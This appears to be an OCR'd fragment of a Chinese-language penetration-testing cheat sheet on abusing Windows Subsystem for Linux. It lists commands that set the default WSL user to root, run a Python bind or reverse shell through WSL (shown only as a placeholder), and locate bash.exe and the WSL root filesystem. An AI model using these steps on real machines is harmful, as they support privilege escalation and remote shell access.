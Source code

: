 	wsl whoami
	./ubuntun1604.exe config --default-user root
	wsl whoami
	wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
	bash文件
	bash.exe也可以在C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe
	或者，探索WSL的文件系统
	C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\
